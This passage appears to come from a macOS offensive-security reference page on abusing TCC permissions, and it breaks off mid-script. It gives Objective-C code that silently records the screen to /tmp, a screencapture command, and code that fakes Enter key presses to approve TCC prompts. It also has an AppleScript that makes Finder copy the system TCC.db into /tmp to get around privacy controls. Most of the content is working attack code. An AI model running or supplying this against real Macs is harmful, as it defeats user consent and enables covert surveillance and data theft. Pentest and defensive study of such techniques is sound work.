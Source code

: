 ```objectivec
        [captureSession addOutput:fileOutput];
    }

    [captureSession startRunning];

    MyRecordingDelegate *delegate = [[MyRecordingDelegate alloc] init];
    [fileOutput startRecordingToOutputFileURL:[NSURL fileURLWithPath:@"/tmp/screen.mov"] recordingDelegate:delegate];

    // Run the loop for 5 seconds to capture
    dispatch_after(dispatch_time(DISPATCH_TIME_NOW, (int64_t)(5 * NSEC_PER_SEC)), dispatch_get_main_queue(), ^{
        [fileOutput stopRecording];
    });

    CFRunLoopRun();
    freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt
}
```
```

**Shell**
Record the main screen for 5s

```bash
screencapture -V 5 /tmp/screen.mov
```
```


### Accessibility

- **Entitlement**: None
- **TCC**: `kTCCServiceAccessibility`

Use the TCC privilege to accept the control of Finder pressing enter and bypass TCC that way

**Accept TCC**

```objectivec
#import <Foundation/Foundation.h>
#import <ApplicationServices/ApplicationServices.h>
#import <OSAKit/OSAKit.h>

// clang -framework Foundation -framework ApplicationServices -framework OSAKit -o ParallelScript ParallelScript.m
// TODO: Improve to monitor the foreground app and press enter when TCC appears

void SimulateKeyPress(CGKeyCode keyCode) {
    CGEventRef keyDownEvent = CGEventCreateKeyboardEvent(NULL, keyCode, true);
    CGEventRef keyUpEvent = CGEventCreateKeyboardEvent(NULL, keyCode, false);
    CGEventPost(kCGHIDEventTap, keyDownEvent);
    CGEventPost(kCGHIDEventTap, keyUpEvent);
    if (keyDownEvent) CFRelease(keyDownEvent);
    if (keyUpEvent) CFRelease(keyUpEvent);
}

void RunAppleScript() {
    NSLog(@"Starting AppleScript");
    NSString *scriptSource = @"tell application \"Finder\"\n"
                             "set sourceFile to POSIX file \"/Library/Application Support/com.apple.TCC/TCC.db\" as alias\n"
                             "set targetFolder to POSIX file \"/tmp\" as alias\n"
                             "duplicate file sourceFile to targetFolder with replacing\n"
```
